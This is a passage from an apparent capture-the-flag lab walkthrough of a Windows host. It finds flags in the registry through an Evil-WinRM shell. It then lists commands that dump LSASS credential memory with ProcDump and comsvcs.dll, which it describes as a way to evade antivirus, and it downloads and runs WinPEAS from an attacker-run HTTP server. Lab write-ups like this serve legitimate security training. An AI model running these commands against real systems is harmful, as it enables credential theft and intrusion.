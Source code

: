 **🎯 FLAG 24 FOUND**: FLAG{P**********9} - Service registry

### FLAG 6: RDP Certificate

**Location**: RDP configuration  
**Difficulty**: Medium

```powershell
# Check RDP certificate configuration
*Evil-WinRM* PS C:\> reg query "HKLM\System\CurrentControlSet\Control\Terminal Server" /v CertificateComment

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Terminal Server
    CertificateComment    REG_SZ    FLAG{G************6}
```

**🎯 FLAG 6 FOUND**: FLAG{G**********6} - RDP certificate comment

---

## Advanced Techniques and Alternative Approaches

### Living Off the Land Binaries (LOLBins)

**Why LOLBins?**: Using legitimate Windows binaries for malicious purposes avoids antivirus detection.

#### LSASS Dumping Without Mimikatz

```powershell
# Method 1: Task Manager (GUI)
# Right-click lsass.exe → Create dump file

# Method 2: ProcDump (Microsoft signed)
*Evil-WinRM* PS C:\Temp> .\procdump.exe -accepteula -ma lsass.exe lsass.dmp

# Method 3: Comsvcs.dll
*Evil-WinRM* PS C:\Temp> rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id C:\Temp\lsass.dmp full

# Transfer dump to Kali for offline analysis
# Use pypykatz or mimikatz on the dump file
```

### Automated Enumeration Scripts

#### Using WinPEAS

```powershell
# Download and run WinPEAS
*Evil-WinRM* PS C:\Temp> Invoke-WebRequest -Uri "http://192.168.148.99:8000/winPEASx64.exe" -OutFile wp.exe
*Evil-WinRM* PS C:\Temp> .\wp.exe systeminfo userinfo
```
